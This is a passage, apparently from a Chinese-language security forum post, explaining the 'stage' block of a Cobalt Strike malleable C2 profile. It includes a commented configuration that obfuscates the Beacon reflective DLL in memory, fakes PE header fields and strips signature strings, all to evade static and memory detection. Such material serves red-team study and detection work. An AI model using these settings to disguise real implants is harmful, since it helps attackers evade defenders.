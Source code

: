 等木马完成行为后，将执行结果通过POST请求包发送至服务端，咱们的客户端console才能够回显正常信息

![Untitled14.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-8d0071134de9357b01723577196d01058302b110.png)

主机侧
---

### stage标签

无阶段payload会远程加载并执行stage，其实这个stage就是一个反射dll(Beacon Dll)，通过修改stage块的内容可以扩展Beacon Dll的功能，以此达到一定的混淆效果。在stage标签中可以设置beacon的元数据修改、在内存中的属性、数据的替换、加解密混淆等

```json
//设置执行反射dll所分配的内存属性，true为RWX，false为RX
set userwx "false";
//设置true后，会抹去存放在内存中的反射DLL
set cleanup "true";
//设置为true时，Beacon会加入一段加解密函数，会对数据和代码进行异或加密，3.11版本是单字节异或，4.2版本是13字节异或。
set sleep_mask "true";
//设置为true时能对MZ、PE和e_lfanew的值进行混淆，这样能使根据MZ等关键字的内存匹配失效
set stomppe "true";
//设置为true时，能混淆dll的导入表、区段名等信息
set obfuscate "true";
//开启智能注入，尝试避免在注入Beacon时引起异常
set smartinject "true";
//设置内存分配器的类型，默认的内存分配器 VirtualAlloc，可以选择使用 HeapAlloc 或 MapViewOfFile 来替代。
set allocator "VirtualAlloc";

//从文件静态特征上做混淆
//设置PE头部的校验和
set checksum       "0";
//设置PE、DLL程序编译时间
set compile_time   "11 Nov 2014 06:18:30";
//设置PE头部的入口点
set entry_point    "650688";
// 设置PE头部的图像大小（x86）
set image_size_x86 "4661248";
//设置PE头部的图像大小（x64）
set image_size_x64 "4661248";
//设置PE头部的名称
set name           "srv.dll";
//定义用于替换Beacon反射性DLL的PE头的自定义字节
set magic_pe "LE";
//设置用于替换Beacon反射性DLL的Rich Header的自定义字节
set rich_header    "\\x3e\\x98\\xfe\\x75\\x7a\\xf9\\x90\\x26\\x7a\\xf9\\x90\\x26\\x7a\\xf9\\x90\\x26\\x73\\x81\\x03\\x26\\xfc\\xf9\\x90\\x26\\x17\\xa4\\x93\\x27\\x79\\xf9\\x90\\x26\\x7a\\xf9\\x91\\x26\\x83\\xfd\\x90\\x26\\x17\\xa4\\x91\\x27\\x65\\xf9\\x90\\x26\\x17\\xa4\\x95\\x27\\x77\\xf9\\x90\\x26\\x17\\xa4\\x94\\x27\\x6c\\xf9\\x90\\x26\\x17\\xa4\\x9e\\x27\\x56\\xf8\\x90\\x26\\x17\\xa4\\x6f\\x26\\x7b\\xf9\\x90\\x26\\x17\\xa4\\x92\\x27\\x7b\\xf9\\x90\\x26\\x52\\x69\\x63\\x68\\x7a\\xf9\\x90\\x26\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00";

//transform-x86和transform-x64标签，strrep标签中主要是修改替换反射dll中的固定字符，以防止被文件静态特征所匹配
transform-x86 {
        prepend "\\x90\\x90\\x90";
        strrep "ReflectiveLoader" "";
        strrep "beacon.dll" "";
        strrep "This program cannot be run in DOS mode" "";
}
......
```
